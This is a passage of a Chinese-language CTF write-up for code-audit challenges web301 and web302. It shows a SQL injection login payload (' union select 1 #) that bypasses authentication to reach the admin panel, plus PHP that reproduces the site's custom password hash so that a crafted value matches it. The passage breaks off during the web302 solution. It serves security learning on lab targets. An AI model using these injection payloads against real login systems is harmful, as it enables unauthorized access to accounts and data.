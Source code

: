 故得到payload:

```
username: ' union select 1 #
password: 1  // 和上面的1对应
```

进入后台，得到flag

![成功](.\代码审计\web301\登录成功.png)

### web302

修改的地方：

```
if(!strcasecmp(sds_decode($userpwd),$row['sds_password']))
```

也就是userpwd这个属性被加密了，先输入加密的结果，password是明文。

寻找一下，在fun.php中找到了加密函数

```php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```

稍做修改

```php
<?php
	$str = 1;
	echo md5(md5($str.md5(base64_encode("sds")))."sds");
?>
```
